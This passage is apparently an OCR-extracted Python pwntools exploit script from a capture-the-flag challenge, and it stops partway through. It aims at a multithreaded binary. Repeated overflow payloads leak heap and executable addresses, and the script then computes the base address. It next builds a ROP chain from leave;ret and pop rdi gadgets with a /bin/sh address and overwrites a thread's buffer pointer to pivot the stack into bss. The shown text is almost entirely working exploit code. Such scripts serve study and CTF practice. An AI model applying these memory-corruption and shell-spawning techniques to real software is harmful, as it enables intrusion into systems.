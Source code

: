 ```py

    while True:
        payload = b"A"*0x10*251
        payload += flat([
            0, 0, # to interface
            0, 0, # to decoder
            0, 0, # to splitter
            0, 0, # to joiner 

            0x1000, 0, # to encoder thread, data size = 0x1000 -> heap leak
        ])
        slaprefix(b64.b64encode(payload))

        recvu(b"[encoder] ")
        leak = recvu(b"\n", True)
        leak = b64.b64decode(leak)
        leaks = []
        for i, c in enumerate(sliced(leak[4:], 8)):
            leaks.append(u64(c))
            # print("%#04x: %016x" % (i, u64(c)))

        for i, l in enumerate(leaks[:-2]):
            if l & ~0b1111 == 0x80 and (leaks[i+2] & 0xfff) == 0x119:
                exe.address = leaks[i+2] - 0x2119
        if exe.address != 0:
            break

    printx(exe=exe.address)
    key = b"\x5e\x5f\xc3\x3d\xb9\x27\x6f\x6e\xd8\xd5\xce\xeb\x1e\x0e\x75\x8d"

    leave_ret = exe.address + 0x00000000000015b0
    pop_rdi = exe.address + 0x00000000000020ad
    binsh_addr = exe.address+0x5820-8

    bss = exe.address + 0x5800

    payload = b""
    payload += xor(b"A"*0x10, key)*251
    payload += flat([
        0, 0, # sent to interface thread (id=256=0)
        0, 0, # sent to decoder (NULL so it will ignore)
        0, 0, # sent to splitter (ignore too)
        
        # sent to joiner
        # rewrite buffer pointer of joiner thread (at buffer+0x10*0x204) with bss (for future stack pivot)
        msg(0x204, p64(bss) + p64(0)),

        0, 0, # sent to encoder (ignore too)
    ])
    payload += xor(b"A"*0x10, key)*251
    payload += flat([
        1, 0,
        0, 0,
        0, 0,

        msg(0, p64(pop_rdi) + p64(binsh_addr)), # write at bss+0x10*0

        0, 0,
    ])
    slaprefix(b64.b64encode(payload))

    payload = b""
```